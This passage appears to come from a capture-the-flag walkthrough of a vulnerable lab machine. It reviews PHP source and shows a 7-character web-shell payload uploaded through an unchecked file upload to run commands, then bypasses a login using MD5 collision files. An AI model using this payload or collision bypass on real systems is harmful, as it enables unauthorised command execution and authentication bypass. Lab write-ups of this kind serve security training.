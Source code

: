 So, we are now aware that there is a restriction in place allowing only `HTTP USER AGENT`s containing the word 'Cyberdog'. The flow control is then passed to `/myuploader_priv/index.php`. In this file, we can detect a file upload functionality, as observable below:

```php
<?php
if($_SERVER['REQUEST_METHOD'] === "POST" && @$_POST['submit']){
        $filename = $_FILES["upme"]["name"];
    $des = 'files/' . basename($_FILES["upme"]["name"]);
    $filesize = $_FILES['upme']['size'];

    if($filesize > 8){
        echo "Your file is too large " . $filesize;
    }else{
        system("find files ! -name '887beed152a3e8f946857bade267bb19d159ef59.txt' ! -name 'index.php' -type f -exec rm -f {} +");
        if(move_uploaded_file($_FILES['upme']['tmp_name'], $des)){
            echo "File uploaded. Find the secret file on server .. files/".$filename;
        }
    }
}
?>
```
The system deletes any previous uploaded file before storing the file we're currently uploading. As we can see, no extension nor content check is performed during the upload phase, so we can upload any file type we want; however, we have an annoying restriction on the file size, which limit is 8 bytes, not really enough for an exploit, but enough to launch a command on the system:

```php
<?=`ls` // 7 characters
```
This will allow a black-box user to discover the content of the hidden file:
`/myuploader_priv/files/887beed152a3e8f946857bade267bb19d159ef59.txt`. This will take us to the next step of our analysis, the file `/d5fa314e8577e3a7b8534a014b4dcb221de823ad/index.php`.

The interesting part of the `index.php` resides in its authentication logic:

```php
<?php
if (($username == $password ) or ($username == $code)  or ($password == $code)) {echo 'Your input can not be the same.';}
else if ((md5($username) === md5($password) ) and (md5($password) === md5($code)) ) {
            echo "Well done!";
            $_SESSION["secret"] = '133720';
            header('Location: admin.php');  
```
Now we know that, in order to successfully login, we need to find 3 md5 collisions. This process may take some times to complete, however, we can get a big help from the great work of [Marc Stevens](https://marc-stevens.nl/research/) about hash collision attacks. A project on Github of *thereal1024*, based on his work, can be very helpful for our needs. [md5-collision](https://github.com/thereal1024/python-md5-collision)

If you're not really interested to have this tool among your own toolset, I uploaded three files ready to use [here](https://github.com/klezVirus/klezVirus.github.io/raw/22091af040b43edbbded553ba14fd019a11fa5ef/Misc/HTB-VH-OSWE/reviews/vulnhub/homeless/md5coll/f123.tar). Those three files are different, but their md5 hashes are the same. To prove that, it's enough to run:
